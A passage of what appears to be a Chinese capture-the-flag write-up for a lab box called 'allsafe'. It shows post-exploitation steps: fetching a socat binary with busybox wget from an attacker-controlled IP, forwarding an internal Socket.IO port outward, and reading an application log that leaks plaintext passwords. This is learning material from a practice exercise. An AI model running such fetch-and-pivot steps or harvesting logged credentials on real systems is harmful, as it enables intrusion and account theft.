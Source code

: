 ```bash

Conéctate al servidor de mensajería y entra en la sala:
    dark-ops

No intentes usar este acceso para nada más que lo acordado.  
Nosotros decidimos cuándo y cómo se conversa.
```

经过查看，端口3000是基于 Socket.IO 的聊天应用，我们转发出去

# 8. **端口转发与日志分析**

```bash
cisco@allsafe:~$ busybox wget 192.168.205.128/socat
Connecting to 192.168.205.128 (192.168.205.128:80)
saving to 'socat'
socat                100% |**********************************************************************************************************************************| 4724k  0:00:00 ETA
'socat' saved
cisco@allsafe:~$ chmod +x socat
cisco@allsafe:~$ ./socat TCP-LISTEN:3001,fork TCP4:127.0.0.1:3000 &
[1] 2001
```

没问题，可以访问

![image-20251019130446534](http://7r1UMPHK.github.io/image/20251019145634052.webp)

测试我们刚刚拿到了信息

```
Gideon
dark-ops
6D7033386E71556654416130494D314F70306157
```

不行，那就是还有东西我们没找到
扒拉了一个查看修改时间的软件，发现了这个

```bash
/var/log/app.log         2025-08-22   -rwxr-xr-x         1654
```

我们可读

```bash
cisco@allsafe:/tmp$ cat /var/log/app.log
2025-08-21T12:01:11.233Z [INFO] Server started on port 3000 (PID 2234)
2025-08-21T12:01:11.235Z [DEBUG] Connected to MySQL at mysql-db:3306
2025-08-21T12:01:12.004Z [WARN] DeprecationWarning: uuid.v1() is deprecated. Use uuid.v4()
2025-08-21T12:01:13.551Z [INFO] GET /healthcheck 200 - 2ms
2025-08-21T12:01:14.232Z [INFO] GET /favicon.ico 404 - 3ms
2025-08-21T12:01:19.998Z [DEBUG] Cache miss for key: session:oparker
2025-08-21T12:01:20.012Z [INFO] POST /login 401 - 45ms - user=oparker
2025-08-21T12:01:20.014Z [ERROR] Invalid credentials for user=oparker ip=10.0.0.12

2025-08-21T12:01:35.783Z [INFO] POST /auth 401 - 62ms - user=shadow
2025-08-21T12:01:35.784Z [DEBUG] Authentication failed for user shadow using password=123456
2025-08-21T12:01:36.001Z [WARN] Too many failed attempts for user=shadow from 10.0.0.55

2025-08-21T12:01:40.152Z [INFO] POST /auth 200 - 38ms - user=cisco
2025-08-21T12:01:40.153Z [DEBUG] Authentication success: password=DLFJYxLLSzp1x5Ttpsffpg2awuJT5K
2025-08-21T12:01:40.155Z [INFO] Joined secure channel: dark-ops

2025-08-21T12:01:41.998Z [DEBUG] Socket.io message from user=shadow: "system ready"
2025-08-21T12:01:42.112Z [INFO] GET /api/clients 200 - 14ms
```
